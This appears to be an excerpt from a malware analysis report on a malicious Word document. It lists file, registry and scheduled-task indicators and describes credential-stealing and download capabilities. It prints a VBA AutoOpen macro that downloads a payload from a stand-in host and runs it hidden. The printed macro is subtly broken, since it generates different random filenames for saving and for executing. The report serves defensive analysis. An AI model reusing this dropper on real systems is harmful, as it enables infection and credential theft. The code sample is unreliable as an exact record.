 - Files: 
  - %TEMP%\invoice_29381.doc
  - %APPDATA%\Microsoft\[random-string].exe
  - %SYSTEMROOT%\System32\Tasks\Microsoftupdate[random-number]
- Registry:
  - HKCU\Software\Microsoft\Office\[version]\Word\Security\AccessVBOM = 1
  - HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\[TaskGUID]
- Network:
  - Multiple C2 domains (see IOC List section)
- Other:
  - Scheduled task creation for persistence
  - PowerShell obfuscated command execution

## Technical Analysis

### Capabilities

- Steals banking credentials and financial information
- Harvests email credentials 
- Exfiltrates contact lists for spreading via existing email threads
- Downloads and executes additional malware payloads
- Establishes persistence via registry and scheduled tasks
- Uses encrypted C2 communications

### Code Analysis

The malicious document contains VBA macros that execute when enabled by the user:

```vba
Sub AutoOpen()
    Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
    Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
    
    myURL = "hxxp://compromised-server.com/payload.bin"
    
    xHttp.Open "GET", myURL, False
    xHttp.Send
    
    With bStrm
        .Type = 1
        .Open
        .write xHttp.responseBody
        .savetofile Environ("TEMP") & "\temp_" & RandomString(8) & ".exe", 2
    End With
    
    Shell Environ("TEMP") & "\temp_" & RandomString(8) & ".exe", vbHide
End Sub

Function RandomString(Length As Integer)
    Dim i As Integer, Temp As String
    For i = 1 To Length
        Temp = Temp & Chr(Int((90 - 65 + 1) * Rnd + 65))
    Next i
    RandomString = Temp
End Function
```
